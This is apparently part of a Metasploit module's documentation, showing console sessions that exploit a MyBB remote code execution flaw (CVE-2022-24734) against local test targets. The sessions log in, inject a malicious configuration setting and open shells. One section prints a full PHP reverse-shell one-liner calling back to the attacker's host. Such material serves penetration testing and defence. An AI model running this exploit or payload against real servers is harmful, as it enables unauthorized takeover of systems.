```
Computer    : DC02
OS          : Windows NT DC02 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
```

### Linux (target 0 - PHP)
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.48:4444 -> 192.168.0.48:50029) at 2022-05-23 15:41:58 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
Computer    : e087259940a8
OS          : Linux e087259940a8 5.10.76-linuxkit #1 SMP Mon Nov 8 10:21:19 UTC 2021 x86_64
Meterpreter : php/linux
```

### Linux (target 1 - Unix (In-Memory))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 1
target => 1
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[+] php -r '$ctxt=stream_context_create(["ssl"=>["verify_peer"=>false,"verify_peer_name"=>false]]);while($s=@stream_socket_client("ssl://192.168.0.48:4444",$erno,$erstr,30,STREAM_CLIENT_CONNECT,$ctxt)){while($l=fgets($s)){exec($l,$o);$o=implode("\n",$o);$o.="\n";fputs($s,$o);}}'&
[*] Started reverse SSL handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command shell session 3 opened (192.168.0.48:4444 -> 192.168.0.48:50151) at 2022-05-23 15:42:58 +0200


ls
backups
inc
```